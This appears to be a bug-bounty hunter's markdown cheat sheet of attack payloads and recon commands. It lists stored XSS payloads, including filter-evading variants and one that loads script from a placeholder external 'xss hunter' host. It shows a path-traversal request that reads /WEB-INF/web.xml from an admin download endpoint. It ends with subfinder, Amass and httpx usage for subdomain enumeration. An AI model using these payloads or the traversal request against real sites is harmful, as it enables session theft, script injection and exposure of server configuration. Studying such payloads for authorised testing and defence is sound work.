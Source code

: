 # Payload Stored XSS
#### <img src=x onerror​=alert(origin)>
#### <img src="X" onerror​=top[8680439..toString(30)](1337)>
#### test“;”/></{dynamic tag}></script><script/SRC=//{xss hunter url} /  (stored xss)
#### <script<img>>alert(1)</script</img>>

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>


 go-to tools 
#Subfinder, 
#Amass, 
#Bbot 
to gather subdomains.
==================================================
 filtered the live ones with #httpx.

using the 
#"-sc — title" 
flags because they show the status code and page title, which helps me spot interesting subdomains faster. 
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
